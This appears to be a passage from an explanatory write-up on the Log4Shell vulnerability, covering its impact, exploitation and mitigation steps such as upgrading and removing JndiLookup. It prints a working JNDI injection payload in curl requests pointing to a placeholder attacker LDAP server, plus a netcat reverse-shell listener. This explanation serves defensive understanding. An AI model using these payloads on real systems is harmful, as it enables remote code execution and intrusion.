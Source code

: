 **Real-World Impact:** Log4Shell had an unprecedented impact due to Log4j's ubiquitous presence in enterprise applications, cloud services, and various software products. Successful exploitation allowed unauthenticated, remote attackers to:

*   **Achieve Full System Compromise:** Execute arbitrary code with the privileges of the vulnerable application, leading to complete control over the affected system.
*   **Data Exfiltration:** Steal sensitive data from compromised systems.
*   **Ransomware Deployment:** Deploy ransomware or other malicious payloads.
*   **Supply Chain Attacks:** Compromise software supply chains by injecting malicious code into widely used applications.

**Technical Details and Exploitation:**

The exploitation of Log4Shell is remarkably simple, often requiring only a single HTTP request containing the malicious JNDI string. The attacker needs to set up a malicious LDAP server (or RMI, DNS, etc.) that serves the malicious Java class.

**Example Exploit (Conceptual `curl` request and `nc` listener):**

1.  **Attacker sets up a malicious LDAP server and a web server:** Tools like `marshalsec` or `JNDI-Exploit-Kit` can be used to set up the LDAP server that serves the malicious Java payload.
2.  **Attacker crafts a malicious request:** The attacker sends a request to the vulnerable application containing the JNDI lookup string in a field that is logged by Log4j (e.g., User-Agent header, URL path, or a form parameter).

```bash
# Attacker's machine: Start a Netcat listener to catch reverse shell (optional, but common for RCE verification)
nc -lvnp 9001

# Attacker's machine: Example of a malicious JNDI string in a User-Agent header
# Replace <attacker_ip> and <ldap_port> with your actual IP and port
# The payload points to an attacker-controlled LDAP server that will serve a malicious Java class
curl -H "User-Agent: ${jndi:ldap://<attacker_ip>:<ldap_port>/a}" http://<vulnerable_target_ip>:<port>/some_endpoint

# Example of a malicious JNDI string in a URL parameter
# curl "http://<vulnerable_target_ip>:<port>/?q=${jndi:ldap://<attacker_ip>:<ldap_port>/a}"
```

When the vulnerable application logs the User-Agent header (or the URL parameter), the Log4j library attempts to resolve the JNDI lookup. This triggers a connection to the attacker's LDAP server, which then redirects the vulnerable server to download and execute a malicious Java class from the attacker's web server. This malicious class can then execute arbitrary commands, such as spawning a reverse shell back to the attacker's Netcat listener.

**Mitigation:** Immediate and comprehensive mitigation for Log4Shell involves:

*   **Upgrade Log4j:** Upgrade Apache Log4j 2 to version 2.17.1 or later (or 2.12.4 for Java 7) to address the vulnerability. This is the most effective solution.
*   **Remove JndiLookup class:** For older versions, remove the `JndiLookup` class from the classpath (e.g., `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`).
*   **Set `log4j2.formatMsgNoLookups=true`:** For Log4j 2.10 to 2.14.1, set the system property `log4j2.formatMsgNoLookups` to `true` or set the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS` to `true`.
*   **Network Segmentation and WAFs:** Implement strict network segmentation to limit outbound connections from vulnerable applications and deploy Web Application Firewalls (WAFs) to detect and block malicious JNDI strings.
*   **Regular Patching:** Maintain a rigorous patching schedule for all software components.

---